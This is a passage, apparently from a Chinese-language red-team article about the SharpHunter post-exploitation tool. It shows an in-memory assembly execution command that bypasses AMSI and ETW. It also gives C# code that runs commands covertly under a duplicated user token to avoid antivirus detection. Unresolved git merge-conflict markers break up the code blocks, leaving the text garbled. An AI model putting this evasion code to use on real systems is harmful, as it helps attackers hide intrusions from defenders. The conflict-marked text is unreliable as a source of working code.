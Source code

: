 ```bash
inlineExecute-Assembly --dotnetassembly /Users/Tools/scripts/SharpHunter.exe --assemblyargs run whoami --amsi --etw --appdomain DefaultDomain --pipe DefaultPipe --mailSlot DefaultMailSlot
```

[![](assets/1710206030-ad3981eaefc8fc69b83a264b4d465feb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240311172835-bc31838a-df89-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

### 0x04 隐蔽执行系统命令

实战中使用 `cmd.exe` 执行命令大概率会被杀软拦截或引发设备告警，遵从 OPSEC 原则这里使用当前线程令牌在不需用户明文凭证的情况下，以当前用户的权限执行命令。

#### 实现原理

使用当前用户的令牌（通过 `WindowsIdentity.GetCurrent().Token` 获取）作为 `DuplicateTokenEx` 的输入，创建一个新的令牌：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
var hToken = WindowsIdentity.GetCurrent().Token;
var hDupedToken = IntPtr.Zero;

win32.DuplicateTokenEx(
    hToken,
    win32.GENERIC_ALL_ACCESS,
    ref sa,
    (int)win32.SECURITY_IMPERSONATION_LEVEL.SecurityIdentification,
    (int)win32.TOKEN_TYPE.TokenPrimary,
    ref hDupedToken
);
```

使用复制的令牌，调用 `CreateProcessAsUser` 创建新进程，执行指定的命令：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
win32.CreateProcessAsUser(
    hDupedToken,
    null,
    cmdline,
    ref sa, ref sa,
    true,
    win32.NORMAL_PRIORITY_CLASS | win32.CREATE_NO_WINDOW,
    IntPtr.Zero,
    null, ref si, ref pi
);
```